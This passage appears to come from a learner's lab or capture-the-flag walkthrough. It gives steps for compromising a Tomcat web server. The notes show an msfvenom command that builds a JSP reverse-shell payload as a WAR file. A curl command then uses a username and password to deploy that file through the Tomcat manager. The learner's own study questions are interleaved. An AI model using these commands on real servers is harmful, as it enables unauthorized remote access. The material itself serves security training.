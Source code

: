##### 21. Creating a shellcode with **msfvenom** that let's us have a webshell in the web server:

		# msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.13.183.3 LPORT=443 -f war > shell.war
		- "-p" : payload = java/jsp_shell_reverse_tcp which creates a reverse connection when activated on the target machine.
		- "LHOST and LPORT" : ip and port of the receiver of the reverse connection.
		- "-f" : the type of shellcode that will be created which in this case, the extension is a .war file.

![](/assets/img/1725.png)

		- Modify it such that "... LHOST=192.13.183.2 ...". Not having the '=' between will not set the LHOST of the shellcode.

		# msfvenom -p java/jsp_shell_reverse_tcp LHOST={target-ip} LPORT=443 -f war > shell.war

**Questions to know beforehand**: Note that the above command is known only because of the walkthrough. Now, with the assumption that we don't know these things beforehand, how can I generate the idea that I would need that kind of shellcode and the type of file to be used as shellcode? (By type, I mean the extension)

		1. What kind of shellcode available on Metasploit will work on this web server given the service running on it?
		2. What extension of the shellcode should be used against this web server?
		3. 

##### 22. Uploading the shellcode on the web server:

		# curl -v -u adeniyi:anamaria -T shell.war 'http://192.13.183.3:8080/manager/text/deploy?path=/dev-app&update=true'
		- "-T" flag means upload to the following URI.

		Questions:
		1. How to know what are the paremeter names of the /deploy link?
		-> Try a WRONG one!
